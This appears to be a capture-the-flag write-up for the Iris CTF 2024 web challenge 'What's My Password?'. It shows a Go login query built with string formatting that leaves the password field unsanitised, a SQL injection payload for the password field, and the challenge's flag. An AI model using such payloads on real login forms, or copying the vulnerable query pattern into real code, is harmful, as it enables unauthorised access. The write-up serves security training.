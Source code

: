 # What's My Password? (Iris CTF 2024 - Web Exploitation)

## Challenge
[baby] Oh no! Skat forgot their password (again)!

Can you help them find it?

https://whats-my-password-web.chal.irisc.tf

### Resource
[Download whats-my-password.tar.gz](https://cdn.2024.irisc.tf/whats-my-password.tar.gz)

## Manual Solve

Extract the whats-my-password.tar.gz file:

```bash
7z x ./resource/whats-my-password.tar.gz -o./resource/
```

```bash
7z x ./resource/whats-my-password.tar -o./resource/
```

Open ./resource/whats-my-password/

First, let's look at the Data Manipulation Language (DML) and Data Control Language (DCL) queries of the db in setup.sql:

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```

We learn that the password column is named "password" and Skat's username (who forgot their password) is "skat".

In ./resource/whats-my-password/src/main.go we see the backend code.

We find that it sanitizes the username but not the password:

```go
matched, err := regexp.MatchString(UsernameRegex, input.Username)
if err != nil {
    w.WriteHeader(http.StatusInternalServerError)
    return
}

if matched {
    w.WriteHeader(http.StatusBadRequest)
    w.Write([]byte("Username can only contain lowercase letters and numbers."))
    return
}

qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)

query, err := DB.Query(qstring)
```

Therefore, the query is vulnerable to SQL Injection.

The password to enter will be `" OR username = 'skat'"`

Payload (seen in the network request of Google Chrome's developer console):

![whats-my-password.web-exploitation-payload.png](./images/whats-my-password.web-exploitation-payload.png)

Response (seen in the network request of Google Chrome's developer console):

![whats-my-password.web-exploitation-response.png](./images/whats-my-password.web-exploitation-response.png)

### Flag
Flag: `irisctf{my_p422W0RD_1S_SQl1}`

![Solved](./images/whats-my-password.web-solved.png)

## Solution using solve.py

Run the following command:

```bash
python solve.py
```

It will show the flag in the output and write it to the flag.txt file inside the ./solve relative directory.

![Solved using python script](./images/whats-my-password.web-python-solve.png)
